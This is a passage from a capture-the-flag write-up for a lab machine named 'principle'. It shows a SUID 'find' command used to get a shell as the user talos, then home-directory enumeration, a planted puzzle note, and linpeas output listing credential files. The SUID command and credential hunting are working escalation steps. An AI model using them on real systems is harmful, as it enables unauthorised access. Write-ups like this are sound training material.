 Looking on gtfobin: https://gtfobins.github.io/gtfobins/find/

There is a simple command that allows us to obtain a shell as that user:

![[Pasted image 20240802190613.png]]

Using the command in the screenshot above, we can get a shell as the Talos user, but we are not in the correct user group:

```bash
www-data@principle:~/html$ find . -exec /bin/bash -p \; -quit
find . -exec /bin/bash -p \; -quit
bash-5.2$ whoami && id
whoami && id
talos
uid=33(www-data) gid=33(www-data) euid=1000(talos) groups=33(www-data)
```

Exploring the home directory, we see a `note.txt`

```bash
bash-5.2$ cd /home/talos
cd /home/talos
bash-5.2$ ls -lash
ls -lash
total 40K
4.0K drwxr-xr-x 4 talos talos 4.0K Jul 14  2023 .
4.0K drwxr-xr-x 4 root  root  4.0K Jul  4  2023 ..
4.0K -rw-r--r-- 1 talos talos    1 Jul 14  2023 .bash_history
4.0K -rw-r----- 1 talos talos  261 Jul  5  2023 .bash_logout
4.0K -rw-r----- 1 talos talos 3.5K Jul 14  2023 .bashrc
4.0K -rw------- 1 talos talos   20 Jul  4  2023 .lesshst
4.0K drw-r----- 3 talos talos 4.0K Jun 30  2023 .local
4.0K -rw-r----- 1 talos talos  807 Jun 30  2023 .profile
4.0K drwx------ 2 talos talos 4.0K Jul 14  2023 .ssh
4.0K -rw-r----- 1 talos talos  320 Jul 13  2023 note.txt
bash-5.2$ cat note.txt
cat note.txt
Congratulations! You have made it this far thanks to the manipulated file I left you, I knew you would make it!
Now we are very close to finding this false God Elohim.
I left you a file with the name of one of the 12 Gods of Olympus, out of the eye of Elohim ;)
The tool I left you is still your ally. Good luck to you.

```

Not knowing my 12 gods of Olympus, I simply used `linpeas.sh` to help me enumerate the box further:

Found `/etc/selinux/Afrodita.key`

```bash
╔══════════╣ Searching *password* or *credential* files in home (limit 70)
/etc/pam.d/common-password
/etc/selinux/Afrodita.key
/usr/bin/systemd-ask-password
/usr/bin/systemd-tty-ask-password-agent
/usr/lib/grub/i386-pc/legacy_password_test.mod
/usr/lib/grub/i386-pc/password.mod
/usr/lib/grub/i386-pc/password_pbkdf2.mod
/usr/lib/systemd/system/multi-user.target.wants/systemd-ask-password-wall.path
/usr/lib/systemd/system/sysinit.target.wants/systemd-ask-password-console.path
/usr/lib/systemd/system/systemd-ask-password-console.path
/usr/lib/systemd/system/systemd-ask-password-console.service
/usr/lib/systemd/system/systemd-ask-password-wall.path
/usr/lib/systemd/system/systemd-ask-password-wall.service
  #)There are more creds/passwds files in the previous parent folde
```
